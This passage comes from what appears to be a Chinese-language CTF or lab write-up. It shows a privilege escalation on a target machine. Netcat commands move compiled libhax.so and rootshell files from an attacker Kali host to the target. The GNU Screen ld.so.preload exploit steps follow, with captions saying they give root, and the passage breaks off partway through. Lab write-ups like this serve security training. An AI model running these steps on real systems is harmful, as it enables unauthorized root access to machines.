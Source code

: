   

编译完后我用 `nc` 把刚刚编译好的文件传到目标服务器上：

```text
KALI：
nc -nlvp 7777 < libhax.so
nc -nlvp 7777 < rootshell

靶机：
nc 192.168.1.128 7777 > libhax.so
nc 192.168.1.128 7777 > rootshell
```

  

![](https://pic4.zhimg.com/80/v2-6cf814b71d8b7bf2729e5b37153e0977_720w.webp)

  

  

![](https://pic4.zhimg.com/80/v2-42afdbc9c4f344fbdfcbbf574629844b_720w.webp)

  

最后按照 `POC` 上面的步骤依次输入命令提权为 `root`：

```text
cd /etc
```

  

![](https://pic3.zhimg.com/80/v2-246c15d5b409e93d6fb4cbfdfef576f6_720w.webp)

  

```text
umask 000
```

  

![](https://pic3.zhimg.com/80/v2-d7d06e2cc641b1a2df59521547ea4346_720w.webp)

  

```text
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
```

  

![](https://pic4.zhimg.com/80/v2-9d4913860739a8423839682f845ad863_720w.webp)

  

```text
screen -ls
```

  

![](https://pic3.zhimg.com/80/v2-ecec0f5d070b5ccd87835cff9e7f706a_720w.webp)
